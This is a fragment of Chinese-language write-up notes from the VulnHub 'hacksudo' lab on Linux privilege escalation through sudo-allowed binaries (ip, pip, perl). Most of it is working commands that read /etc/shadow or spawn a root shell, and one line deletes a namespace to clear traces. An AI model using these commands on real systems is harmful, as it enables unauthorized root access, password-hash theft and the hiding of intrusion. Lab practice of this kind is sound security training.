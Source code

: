 ![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\56.jpg)

## ip提权

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\57.jpg)



主要分两种，读取和获取shell

###### 读取

```shell
sudo ip -force -batch "/etc/shadow"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\58.jpg)

###### 获取shell

```shell
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
sudo ip netns delete foo	//退出提权后清除痕迹
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\59.jpg)



```shell
sudo ip netns add foo
sudo ip netns exec foo /bin/ln -s /proc/1/ns/net /var/run/netns/bar
sudo ip netns exec bar /bin/sh
sudo ip netns delete foo
sudo ip netns delete bar
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\60.jpg)

## pip提权

```shell
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

这里靶场有问题，没有`pip`这个命令，所以无法提权

## perl提权

```shell
sudo perl -e 'exec "/bin/sh";'
```
